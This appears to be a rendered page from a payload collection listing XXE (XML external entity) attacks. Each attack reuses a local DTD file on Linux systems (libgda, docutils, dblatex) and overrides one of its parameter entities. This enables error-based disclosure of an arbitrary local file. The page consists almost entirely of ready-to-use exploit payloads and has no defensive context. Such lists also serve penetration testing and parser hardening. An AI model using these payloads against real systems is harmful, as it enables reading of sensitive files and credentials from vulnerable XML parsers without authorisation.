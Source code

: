  --- 

**DTD File:** `/usr/share/libgda-5.0/dtd/libgda-paramlist.dtd`

**Injectable entity:** `%array-dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/libgda-5.0/dtd/libgda-paramlist.dtd">

    <!ENTITY % array-dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/xml/docutils/docutils.dtd`

**Injectable entity:** `%measure`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/docutils/docutils.dtd">

    <!ENTITY % measure '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/dblatex/schema/dblatex-config.dtd`

**Injectable entity:** `%attlist.modname`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/dblatex/schema/dblatex-config.dtd">

    <!ENTITY % attlist.modname '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
```